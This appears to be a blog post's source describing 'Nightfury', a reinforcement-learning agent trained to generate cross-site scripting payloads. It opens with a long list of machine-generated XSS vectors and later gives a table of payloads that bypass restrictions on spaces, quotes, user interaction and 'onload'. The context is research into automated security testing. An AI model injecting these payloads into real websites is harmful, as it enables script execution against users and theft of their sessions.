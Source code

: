 ```yaml
---
layout: post
title: "Teaching XSS to a machine"
categories: Machine-Learning
tags: hacks
image: "https://web.stanford.edu/group/pdplab/pdphandbook/suttonbarto_rl.png"
---
```


Even before we start anything, just have a glance at few interesting vectors that were dreamt by a machine learning agent which has structural
knowledge of HTML. Few vectors require user interaction also. I tried to add comments about what I think is special about few of those.

``` html
<body onblur=x onload=popup=1;>
<body onerror=popup=1;><svg/onfocus=import>  <!-- When the svg is clicked, the js fails and body onerror is triggered. WOW!! -->
<body onload=popup=1;>
<body rel='popup=1;'onerror=popup=1; onload=x >
<button autofocus=x onchange='import'onfocus=popup=1; >
<button data=popup=1; id='x'onfocus=popup=1; >
<button onclick=popup=1;>
<canvas onclick="popup=1;">
<embed onfocus='popup=1;'><img
<form formaction=popup=1; onclick=popup=1;><object>  <!-- Involves a click on object -->
<form href='x'onclick=popup=1;><select>
<frameset id="x"onload=popup=1;>
<frameset onload=popup=1;>
<iframe onload=popup=1;>
<img srcset=popup=1; onerror=popup=1;>
<input onclick=popup=1; >
<input onfocus=popup=1; autofocus="x">
<input srcset=x href=x onclick=popup=1; >
<link rel=import href=data:text/html;base64,PHNjcmlwdD5wb3B1cD0xOzwvc2NyaXB0Pg==>  <!-- This is awesome -->
<object onfocus=popup=1;>
<select onclick="popup=1;">
<select onclick=popup=1;>
<source onclick=popup=1; ><frameset/onload=popup=1;>  <!-- Interesting as, agent was trying to find vector with no user interaction and only two allowed spaces in input -->
<svg onclick=popup=1;>
<svg onload=popup=1;>
<video onclick=popup=1;>
```

### Introduction

Let's talk about XSS first. How are you successful in creating a payload for demoing/exploiting a Cross Site Scripting vulnerability? It depends on your
ability to understand the HTML markup and inject a javascript statement in an executional context. If you think about it, your most basic payload starts from
``<script>alert(1);</script>`` to ``<img src=x onerror='alert()'>``.

### Reinforcement Learning

A branch of machine learning in which an agent learns optimum actions for different scenarios based on it's past experiences. A more elegant way of explaining
RL is taken from [here](http://www.cse.unsw.edu.au/~cs9417ml/RL1/introduction.html)

An RL agent learns by interacting with its environment and observing the results of these interactions. This mimics the fundamental way in which
humans (and animals alike) learn. As humans, we have a direct sensori-motor connection to our environment, meaning we can perform actions and witness
the results of these actions on the environment. The idea is commonly known as "cause and effect", and this undoubtedly is the key to building up
knowledge of our environment throughout our lifetime. The "cause and effect" idea can be translated into the following steps for an RL agent:

+ The agent observes an input state
+ An action is determined by a decision making function (policy)
+ The action is performed
+ The agent receives a scalar reward or reinforcement from the environment
+ Information about the reward given for that state / action pair is recorded

By performing actions, and obersving the resulting reward, the policy used to determine the best action for a state can be fine-tuned.
Eventually, if enough states are observed an optimal decision policy will be generated and we will have an agent that performs perfectly in
that particular environment.

### Idea

Consider the following markup ``<div class="INJECTION_POINT">``. By a simple look you are aware that inorder to execute an XSS you come out of the
class attribute context and put a payload. A simple vector in the above scenario is ``"><img src=x onerror=alert()>``. This is very trivial because
of your exposure to HTML markup, so I believed that if I can somehow impart the knowledge of html to an RL agent and let it play with it for few hours,
it should be able to provide some simple XSS payloads in different scenarios.

So, for the same scenario above, the RL agent get a state representation like

```
1_tag: div
1_tag_ap: class
context: attr_value
context: class
```

If the above state representation doesn't make any sense, just ignore it. All it does is try to represent the markup. Now, when I tried it against the
agent that I trained, I got the following payload

``` html
<div class=""><button onclick=popup=1;>
```

Not an optimized payload, as a matter of fact this infact requires user interaction. But this is a good starting point.


### Simplifications

You can just give the set of alphabets and control characters (i.e ',",<,> etc.) as actions and the agent will learn valid HTML if you give negative reward
for all non valid markup that it generates. But for the agent to learn html huge training time is required. Similarly, there are other issues which I will not
go into detail but try to explain the simplifications I applied.

+ To speedup the training time, instead of giving just alphabets I gave all the html tags, attributes as actions.
+ Based on the html parsing, html tags are made available only when the context is a tag name etc..
+ Similarly based on the html parsing attributes and their values are made available only when the context needs one of those.

All the simplifications impart the knowledge of structure of html (XML like structure) only.

### Current State

After training for about **3 hours** with **25 html tags** and **25 attribute names**, the agent aquires good level of knowledge. I provided the following injection
sink ``<button INJECTION_POINT``. Based on different restrictions the agent chooses different actions

| Conditions | Payload |
| No restrictions | ``onclick=popup=1;>`` |
| No user interaction | ``><svg onload='popup=1;'>`` |
| No user interaction + No space | ``><iframe/onload='popup=1'>`` |
| No user interaction + No space + No Quotes | ``><iframe/onload=popup=1>`` |
| No user interaction + No 'onload' | ``><input autofocus='x' onfocus=popup=1;>`` |

### Future Work (Planned so far!)

+ Shift to a sparse sampling way to speed up learning.
+ If RlPy is not being suited, shift to [**Theano**](http://deeplearning.net/software/theano/) and use [**Lasagne**](http://lasagne.readthedocs.org/en/latest/)  for neural network to remember the value function.
+ A better state representation of only javascript might be interesting to try out. Why? Because AngularJS has a top notch sandbox to test against!!

I am calling this project as [**Nightfury**](https://github.com/tunnelshade/nightfury) and planning to write a detailed technical blog post on how this has
been achieved so far. The github repo needs some cleanup, but as of now please bear with this!
